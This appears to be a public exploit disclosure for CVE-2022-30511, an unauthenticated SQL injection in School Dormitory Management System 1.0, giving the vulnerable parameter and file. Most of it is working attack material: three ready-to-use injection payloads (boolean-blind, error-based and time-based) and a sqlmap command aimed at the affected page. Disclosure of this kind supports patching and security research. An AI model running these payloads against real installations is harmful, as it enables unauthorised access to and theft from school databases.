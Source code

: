 # CVE-2022-30511
School Dormitory Management System 1.0 - Unauthenticated SQL Injection

#### Exploit Title: School Dormitory Management System 1.0 - Unauthenticated SQL Injection
#### Date: 2022-05-25
#### CVE: CVE-2022-30511
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://www.sourcecodester.com/
#### Software Link: https://www.sourcecodester.com/php/15319/school-dormitory-management-system-phpoop-free-source-code.html
#### Version: 1.0
#### Tested on: LAMP, Ubuntu

-----

[#] Vulnerability Location:
	`$_GET['id']` in `/dms/admin/accounts/view_details.php:4`

>Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=accounts/view_details&id=2' AND 8853=8853 AND 'kujz'='kujz
>
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: page=accounts/view_details&id=2' AND (SELECT 8739 FROM(SELECT COUNT(*),CONCAT(0x716a6b6a71,(SELECT (ELT(8739=8739,1))),0x71766b7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'fkLf'='fkLf
>
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=accounts/view_details&id=2' AND (SELECT 7339 FROM (SELECT(SLEEP(5)))Dkxx) AND 'UZCm'='UZCm

----

[#] Exploitation Using SQLMAP:
	`sqlmap -u "http://localhost/dms/admin/?page=accounts/view_details&id=2" --dbms=mysql`
